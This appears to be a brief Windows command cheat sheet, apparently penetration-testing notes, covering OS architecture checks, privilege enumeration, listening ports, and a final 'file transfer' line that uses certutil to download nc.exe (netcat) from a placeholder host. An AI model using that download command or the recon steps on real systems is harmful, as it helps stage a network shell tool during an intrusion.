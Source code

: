 OS architecture 

```powershell
# https://docs.microsoft.com/en-us/dotnet/api/system.environment.is64bitoperatingsystem?view=net-6.0
[System.Environment]::Is64BitOperatingSystem
# without .Net
(gwmi Win32_OperatingSystem).OSArchitecture -eq '64-bit'
```

```cmd
(wmic os get osarchitecture)
```

AppData's Temp folder (%TEMP%)

```cmd
C:\Users\<User Account>\AppData\Local\Temp
```

privileges information

```cmd
whoami /priv
whoami /all
```

check network connections 

```cmd
netstat -ano | findstr LISTEN
```

file transfer

```cmd
certutil -urlcache -split -f "http://<target ip>/nc.exe" C:\Users\<User Account>\Desktop\nc.exe
```
